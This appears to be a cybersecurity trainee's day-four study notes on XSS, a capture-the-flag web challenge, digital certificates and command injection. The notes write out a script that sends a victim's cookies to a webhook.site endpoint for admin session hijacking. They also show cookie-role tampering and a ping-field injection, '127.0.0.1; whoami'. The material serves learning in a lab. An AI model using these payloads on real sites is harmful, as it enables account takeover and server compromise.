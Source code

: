 
# 🧠 Day 4: XSS, Webhook Exploitation, Digital Certificates, and Command Injection

---

## 🚨 Cross-Site Scripting (XSS)

**Cross-Site Scripting (XSS)** is a vulnerability that allows attackers to inject **malicious JavaScript code** into webpages viewed by other users. It is a **high to critical** severity vulnerability.

### 🎯 What can XSS do?
- Steal cookies and sessions
- Perform actions on behalf of users
- Redirect users
- Log keystrokes

### ⚔️ Types of XSS

| Type        | Description                                                                 | Example |
|-------------|-----------------------------------------------------------------------------|---------|
| **Stored**  | Malicious script is permanently stored on the server (e.g., in database).   | A comment box storing `<script>alert(1)</script>` |
| **Reflected** | Script is reflected off a web server (e.g., via URL parameters).            | `http://site.com?q=<script>alert(1)</script>` |
| **DOM-Based** | Occurs when the client-side script manipulates the DOM without validation. | JS reads from `location.hash` and injects it into the page |

### 🧪 Requirements to Exploit XSS:
1. A **user input field**
2. That input should be **rendered on the frontend** (or backend if stored)

### 🧬 Basic XSS Test Payload
```html
<script>alert(1)</script>
```

If an alert box pops up, the input is being executed as JavaScript = vulnerable!

---

## 🔍 XSS CTF Challenge with Webhook.site

We were given a vulnerable "ticket submission" web app. The goal: exploit XSS to access **admin cookies** and find the flag.

### 🔧 Steps:
1. Identify the **message box** as the vulnerable field.
2. Use [Webhook.site](https://webhook.site) to generate a **unique endpoint**.
3. Craft XSS payload:
```html
<script>
fetch("https://webhook.site/your-custom-id?cookie=" + document.cookie)
</script>
```
![xss](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/XSS.jpg)
![webhook](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/webhook.jpg)

4. Submit the payload in the message box.
5. Once the bot/admin user views it, the **cookies get sent** to your webhook endpoint.
6. Look for the request containing `admin_session` — this contains session cookie.
7. Go to `Application > Cookies` in browser dev tools.
8. Paste the stolen cookie name and value.
9. Replace `admin_login` in the URL with `/admin` to gain access.
10. Inspect the page to find the flag.

![ctf2](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/ctf.jpg)

---

## 🛡️ XSS Defense Mechanisms

1. **HttpOnly Cookies** – Makes cookies inaccessible to JS via `document.cookie`.
2. **Whitelist-Based Input Validation** – Only allow safe characters (e.g., letters, numbers).
3. **JWT Tokens** – Helps authenticate without exposing sensitive session cookies.

---

## 🎭 Alternate Solution (Cookie Role Manipulation)
- Decode the cookie using Base64.
- Change the `role` value to `admin`.
- Re-encode and paste it back.
- Refresh and access admin section.

---

## 🔐 Digital Certificates

**Digital Certificates** use **Public Key Infrastructure (PKI)** to secure communication:
- **Public Key**: Shared with anyone, encrypts data.
- **Private Key**: Kept on the server, decrypts data.

### 🔑 Use Cases:
- Secure HTTPS connections
- Encrypt sensitive data
- Digital signatures to verify authenticity

### 📁 How it works:
1. Server provides its **digital certificate** to client.
2. Client uses the **public key** to send encrypted data.
3. Only the **private key** (server-side) can decrypt it.

---

## 🧨 Command Injection (CMDi)

**Command Injection** occurs when user input is executed as a **shell command** by the server.

### ⚙️ Real-world example:
Web app with a host checker tool lets user input IP. Vulnerable backend runs:
```bash
ping <user_input>
```

### 🧪 Exploiting CMDi
1. Enter a valid IP: `127.0.0.1`
2. Enable **Burp Intercept**, click **Check**
3. Modify the request:
```
127.0.0.1; whoami
```
4. Forward the request
5. Response shows `www-data` or another system user

> `whoami` is a Linux command that prints the current user — proof of command execution.

![Cmdi](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/cmdi.jpg)

---

## ✅ Day 4 Summary

- Learned about **XSS**, payloads, and cookie theft
- Completed a full CTF using **webhook.site**
- Learned about **digital certificates** and secure communication
- Practiced **Command Injection** using Burp Suite
- Understood how session tokens and cookies are used and manipulated

---

